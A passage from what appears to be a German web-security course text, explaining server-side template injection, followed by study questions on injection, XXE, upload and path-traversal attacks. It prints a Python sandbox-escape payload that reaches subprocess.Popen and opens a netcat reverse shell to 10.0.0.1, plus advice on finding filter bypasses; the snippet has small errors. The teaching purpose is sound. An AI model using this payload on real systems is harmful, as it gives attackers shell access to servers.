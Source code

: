     obj_class = somelist.__class__.mro()[1]
    obj_class.__subclasses__()[42]   # -> <class 'subprocess.Popen'>
    obj_class.__subclasses__[42](["nc", "10.0.0.1", "443", "-e", "/bin/sh"])

Bei diesem Beispiel wird somit als Kommando ,,ns 10.0.0.1 443 -e
/bin/sh” aufgerufen: dieses Kommando baut eine reverse-shell auf, ein
Angreifer erhält auf diese Weise Shell-Zugriff auf den Server mit den
Rechten der Web-Applikation.

Webapplikationen versuchen häufig, Benutzereingaben in Templates auf
Schadcode hin zu überprüfen. Dies ist problematisch da Templates viele
Möglichkeiten bieten, Schadcode zu verschleiern und auf diese Weise
Absicherungen zu umgehen[9]. Als Angreifer sucht man in diesem Fall am
Besten nach ,,bypass” und dem Namen der verwendeten Template-Engine.

Ein Exploit gegen ein Template-System kann selten zu 100% statisch
erfolgen da die Liste der Subklassen von ,,Object” dynamisch ist: sowohl
die Elemente als auch deren Position ist von der Laufzeitumgebung
abhängig und kann sich bei jedem Start der Webapplikation verändern. Ein
Angreifer wird daher zumeist mehrstufig vorgehen und nach Erlangen des
Zugriffs auf das CMS initial versuchen aussichtsreiche Objekt-Klassen
und deren Position (im Subklassen-Array) zu identifizieren. Anschließend
wird er versuchen, erfolgversprechende Klassen zu instanzieren und auf
diese Weise Schadcode auszuführen.

## Reflektionsfragen

1.  Wie funktioniert eine SQL union-based Injection? Womit können
    SQL-Injections vermieden werden?

2.  Wie funktioniert eine SQL time-based Injection? Womit können
    SQL-Injections vermieden werden?

3.  Warum sollten SQL prepared statements verwendet werden?

4.  Was versteht man unter einer Serialisierungs-Schwachstelle? Welche
    negativen Auswirkungen können Serialisierungsangriffe auf eine
    Applikation besitzen?

5.  Was versteht man unter XML External Entity Attacks? Welche negativen
    Auswirkungen auf die Applikation können erzielt werden und welche
    Gegenmaßnahmen sind möglich?

6.  Welche Probleme können beim Upload eines Files auf einen Webserver
    auftreten? Welche Best-Practises im Zusammenhang mit File-Uploads
    sollten beachtet werden?

7.  Unterschied der Angriffsvektoren mit einem File, dass serverseitig
    exekutierten Code enthält und einem File, dass client-seitig
    exekutierten Code enthält?

8.  Wie können Path-Traversal Angriffe eingesetzt werden?

9.  Erläutere LDAP-Injections.

10. Welche Schwachstelle wird bei Type-Juggling Angriffen ausgenutzt?
    Erläutere ein solches Beispiel.
